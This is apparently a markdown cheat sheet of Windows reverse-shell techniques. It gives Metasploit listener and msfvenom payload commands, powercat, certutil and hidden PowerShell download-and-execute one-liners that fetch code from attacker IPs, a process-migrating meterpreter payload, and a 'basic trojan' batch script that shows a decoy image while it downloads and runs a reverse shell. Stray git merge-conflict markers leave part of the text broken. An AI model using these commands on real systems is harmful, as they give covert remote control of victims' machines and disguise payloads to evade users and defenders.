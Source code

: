 
common metasploit listener:
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT <PORT>; set ExitOnSession false; exploit -j"
```



using powercat:
```bash
attacker machine:

where powercat installed:
python3 -m http.server 9090

start netcat listener:
nc -nvlp 1234


target machine:
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.120:9090/powercat.ps1');powercat -c 192.168.1.120 -p 1234 -e cmd"
```


using batch file:
```bash
attacker machine:

msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
python3 -m http.server 9090

msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.104 lport=4444 –f exe > shell.exe


nc -nvlp 4444

target systm:
Invoke-WebRequest -Uri "http://192.168.1.120:9090/shell.bat" -OutFile "$env:TEMP\shell.bat"; Start-Process "$env:TEMP\shell.bat" -WindowStyle Hidden

```

using certutil.exe :
```bash
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```


Msiexec.exe:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```



Hidden bind shell:
```bash
msfvenom -p windows/shell_hidden_bind_tcp ahost=192.168.0.107 lport=1010 -f exe > /root/Desktop/hidden.exe
```



get tty windows shell:
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/shell.ps1')"
```


having cmd shell upgrade tty shell:
```bash
powershell.exe -NoLogo -NoExit -Command "$Host.UI.RawUI.WindowTitle = 'Upgraded Shell';"
```

Hiding Shell with Prepend Migrate using Msfvenom:

```bash
#this shell migrate between processes.
msfvenom –p windows/meterpreter/reverse_tcp lhost=192.168.1.104 lport=5555 prependmigrate=true prepenmigrateprocess=explorer.exe –f exe > /root/Desktop/raj.exe

```



=======
powershell:
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.63.128 lport=3434 > reverse.bat 
```

Basic trojan:
```bash
@echo off

set "url1=https://prod-ripcut-delivery.disney-plus.net/v1/variant/disney/9B368B465A4DC909CDB6E799ACB64899B54E731B6D894FA5B080D75DB2F30533/scale?aspectRatio=1.78^&format=jpeg"
set "url2=http://192.168.63.128:8081/reverse.bat"

powershell -NoProfile -Command ^
"$urls = @('%url1%', '%url2%'); ^
foreach ($url in $urls) { ^
  $fn = Join-Path $env:TEMP ([System.IO.Path]::GetFileName($url).Split('?')[0]); ^
  try { Invoke-WebRequest -Uri $url -OutFile $fn -UseBasicParsing } catch { Write-Host 'Download failed for' $url; continue }; ^
  if (Test-Path $fn) { ^
    if ($fn -match '\.jpg$') { Start-Process mspaint.exe $fn } else { Start-Process $fn } ^
  } else { Write-Host 'File not found after download:' $fn } ^
}"
```
>>>>>>> origin/main
